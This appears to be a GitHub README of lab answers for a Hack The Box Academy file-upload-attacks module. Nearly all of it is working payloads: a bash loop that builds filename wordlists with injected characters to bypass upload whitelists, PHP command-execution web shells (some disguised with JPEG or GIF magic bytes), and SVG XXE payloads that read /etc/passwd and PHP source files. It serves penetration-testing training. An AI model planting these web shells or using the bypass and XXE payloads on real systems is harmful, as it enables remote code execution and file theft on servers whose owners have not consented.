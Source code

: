 # Useful Links
[PHP extension list](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)
[web-extensions.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)
[content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)

# Character Injection
Finally, let's discuss another method of bypassing a whitelist validation test through Character Injection. We can inject several characters before or after the final extension to cause the web application to misinterpret the filename and execute the uploaded file as a PHP script.

## The following are some of the characters we may try injecting:

```%20```

```%0a```

```%00```

```%0d0a```

```/```

```.\```

```.```

```… ```  

```:```
```
Code: bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

# Useful Shells

## Question 1
shell.php
```php
<?php system('hostname'); ?>
```

## Question 2
shell.php
```php
<?php system($_REQUEST['cmd']);?>
```

## Question 3
shell.php
```php
<?php system($_REQUEST['cmd']);?>
```

## Question 4
shell.phar
```php
<?php system($_REQUEST['cmd']);?>
```

## Question 5
shell.phar.jpg
```php
����^@^PJFIF^@^A^A^A^A,^A,^@^@��^@dExif^@^@II*^@^H^@^@^@^B^@^N^A^B^@-^@^@^@&^@^>
<?php system($_REQUEST['cmd']);?>
```

## Question 6
shell.phar.gif
```php
GIF8
<?php system($_REQUEST['cmd']);?>
```
shell.gif.phar
```php
GIF8
<?php system($_REQUEST['cmd']);?>
```

## Question 7
shell.svg
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
shell2.svg
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<svg>&xxe;</svg>
```
shell3.svg
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resourc>
<svg>&xxe;</svg>
```

## Skills Assessment - File Upload Attacks

shell.svg
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```

shell2.svg
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=common-functions.php"> ]>
<svg>&xxe;</svg>
```

shell.phar.jpeg
```php
����^@^PJFIF^@^A^A^A^A,^A,^@^@��^@dExif^@^@II*^@^H^@^@^@^B^@^N^A^B^@-^@^@^@&^@^>
<?php system($_REQUEST['cmd']);?>
```

# Useful Code
[upload.php](https://github.com/r4fik1/HTB_Academy/blob/main/HTB_File_Upload_Attacks/Skill%20Assessment%20-%20File%20Upload%20Attacks/upload.php)

[common-functions.php](https://github.com/r4fik1/HTB_Academy/blob/main/HTB_File_Upload_Attacks/Skill%20Assessment%20-%20File%20Upload%20Attacks/common-functions.php)
